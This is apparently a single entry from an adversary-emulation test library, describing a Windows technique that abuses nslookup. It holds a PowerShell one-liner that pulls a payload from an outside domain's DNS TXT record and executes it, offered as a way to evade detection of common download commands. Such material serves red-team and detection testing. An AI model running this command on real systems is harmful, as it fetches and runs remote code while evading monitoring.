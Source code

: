 




<br/>
<br>

## Atomic Test #22 - Abuse Nslookup with DNS Suspicious DNS Queries
"Red teamer's avoid IEX and Invoke-WebRequest in your PowerShell commands. Instead, host a text record with a payload to compromise hosts.

**Supported Platforms:** Windows

**auto_generated_guid:** 999bff6d-dc15-44c9-9f5c-e1051bfc86e1

#### Attack Commands: Run with `powershell`! 

```
powershell .(nslookup -q=TXT unburned-domain.com)[-1]
```

### Reference : 
https://twitter.com/jstrosch/status/1237382986557001729

<br/>
